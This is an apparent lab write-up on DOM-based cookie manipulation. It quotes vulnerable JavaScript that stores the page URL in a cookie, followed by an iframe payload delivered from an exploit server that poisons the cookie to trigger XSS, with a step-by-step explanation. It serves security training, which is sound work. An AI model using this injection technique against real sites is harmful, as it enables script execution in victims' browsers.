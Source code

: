 #### DOM-based cookie manipulation

> This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages. 

Vulnerable code

```javascript
<script>
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>

......

<a href="https://0aec00340395b0ecc029894a00540068.web-security-academy.net/product?productId=1">Last viewed product</a>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
				<ol>
					<li>
						Notice that the home page uses a client-side cookie called <code>lastViewedProduct</code>, whose value is the URL of the last product page that the user visited.
					</li>
					<li>
						<p>
                            Go to the exploit server and add the following <code>iframe</code> to the body, remembering to replace <code>your-lab-id</code> with your lab ID:
                        </p>
						<code class="code-scrollable">&lt;iframe src="https://your-lab-id.web-security-academy.net/product?productId=1&amp;'&gt;&lt;script&gt;print()&lt;/script&gt;" onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;"&gt;</code>
					</li>
					<li>
					Store the exploit and deliver it to the victim.
					</li>
				</ol>
				<p>
					The original source of the <code>iframe</code> matches the URL of one of the product pages, except there is a JavaScript payload added to the end. When the <code>iframe</code> loads for the first time, the browser temporarily opens the malicious URL, which is then saved as the value of the <code>lastViewedProduct</code> cookie. The <code>onload</code> event handler ensures that the victim is then immediately redirected to the home page, unaware that this manipulation ever took place. While the victim's browser has the poisoned cookie saved, loading the home page will cause the payload to execute.
				</p>
			</div>
        </div>
